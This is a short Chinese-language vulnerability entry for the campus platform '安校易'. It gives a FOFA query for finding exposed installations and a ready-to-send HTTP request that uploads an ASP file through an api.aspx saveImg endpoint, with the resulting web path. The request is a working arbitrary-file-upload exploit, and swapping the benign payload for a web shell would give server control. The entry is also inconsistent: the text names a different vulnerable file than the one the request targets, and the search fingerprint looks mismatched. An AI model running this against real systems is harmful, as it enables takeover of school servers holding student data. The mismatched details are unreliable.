**fofa**

```
body="/Scripts/jquery.landray.dialog.js"
```

**一、漏洞简述**

“安校易”以物联网技术为基础，以学生在校“学食住行”管理为中心，将消费管理、门禁管理、各类学生出入管理、家校互通、校门口进出身份识别等系统进行集成，有效减少校园管理盲点，提升校园安全防范与管理水平。同时，“安校易”又以大数据、人脸识别技和移动互联网为核心技术，以“安全·安心·沟通”为核心诉求，在教育局、学校、家长之间构建一个和谐高效和智慧的沟通互动平台，促进教育合力和智慧教育生态体系成型，做到让学校管理安全、让老师管理快捷、让领导科学决策和让家长安心放心。其接口FileUpProductupdate.aspx存在任意文件上传漏洞，攻击者可通过该漏洞获取系统权限。

**二、漏洞检测poc**

```yaml
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: x.x.x.x
User-Agent: MMozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Content-Length: 152
Content-Type: multipart/form-data; boundary=---123
Connection: close

-----123
Content-Disposition: form-data; name="file"; filename="test.asp"
Content-Type: text/html

<%Response.Write("HelloWorldTest")%>
-----123--
```

回显路径：/files/editor_img/xxxx/xxxxxx.asp